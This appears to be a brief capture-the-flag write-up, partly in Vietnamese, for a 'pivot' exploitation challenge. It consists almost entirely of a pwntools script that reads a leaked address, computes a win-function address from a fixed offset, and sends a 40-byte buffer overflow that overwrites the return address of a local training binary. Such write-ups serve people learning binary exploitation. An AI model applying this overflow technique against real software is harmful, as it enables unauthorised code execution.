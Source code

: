 # pivot [challenge 7]


chall nay ez qua nen minh de scripts thoi

```python
from pwn import *

r = process("./pivot")
#gdb.attach(r,api = True)
payload = b""

leak = int(r.recv().split(b"to pivot: ")[1].split(b"\nSend")[0],16)
log.info(f"Leak: {hex(leak)}")

ret2win = leak + 0x229b71

log.info(f"ret2win: {hex(ret2win)}")

r.sendline(b"1")
r.recv()
r.sendline(b"a"*40+p64(ret2win))


r.interactive()

```